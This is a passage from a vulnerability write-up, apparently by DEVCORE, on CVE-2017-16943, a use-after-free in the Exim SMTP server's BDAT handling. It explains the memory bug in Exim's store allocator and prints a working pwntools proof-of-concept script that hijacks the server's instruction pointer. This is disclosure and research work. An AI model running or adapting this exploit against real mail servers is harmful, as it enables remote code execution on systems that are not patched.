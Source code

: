 ```c
int yield = -1;

log_write(type, LOG_MAIN, "SMTP %s error in \"%s\" %s %s",
  (type == L_smtp_syntax_error)? "syntax" : "protocol",
  string_printing(smtp_cmd_buffer), host_and_ident(TRUE), errmess);
```
The log messages are printed by string_printing. This function ensures a string is printable. For this reason, it extends the string to transfer characters if any unprintable character exists, such as `'\n'->'\\n'`. Therefore, it asks `store_get` for memory to store strings.
This store makes `    if (!store_extend(next->text, oldsize, header_size))` in `receive_msg` failed when next extension occurs and then triggers use-after-free.

### Exploitation
The following is the Proof-of-Concept(PoC) python script of this vulnerability. This PoC controls the control flow of SMTP server and sets instruction pointer to `0xdeadbeef`. For fuzzing issue, we did change the runtime configuration of exim. As a result, this PoC works only when **dkim** is enabled. We use it as an example because the situation is less complicated. The version with default configuration is also exploitable, and we will discuss it at the end of this section.
```python
# CVE-2017-16943 PoC by meh at DEVCORE
# pip install pwntools
from pwn import *

r = remote('127.0.0.1', 25)

r.recvline()
r.sendline("EHLO test")
r.recvuntil("250 HELP")
r.sendline("MAIL FROM:<meh@some.domain>")
r.recvline()
r.sendline("RCPT TO:<meh@some.domain>")
r.recvline()
r.sendline('a'*0x1250+'\x7f')
r.recvuntil('command')
r.sendline('BDAT 1')
r.sendline(':BDAT \x7f')
s = 'a'*6 + p64(0xdeadbeef)*(0x1e00/8)
r.send(s+ ':\r\n')
r.recvuntil('command')
r.send('\n')

r.interactive()
```

1. Running out of `current_block`
    In order to achieve code execution, we need to make the `next->text` get the first store of a block. That is, running out of `current_block` and making `store_get` allocate a new block. Therefore, we send a long message `'a'*0x1250+'\x7f'` with an unprintable character to cut `current_block`, making `yield_length` less than 0x100.
![](https://i.imgur.com/PaQWaAT.png)
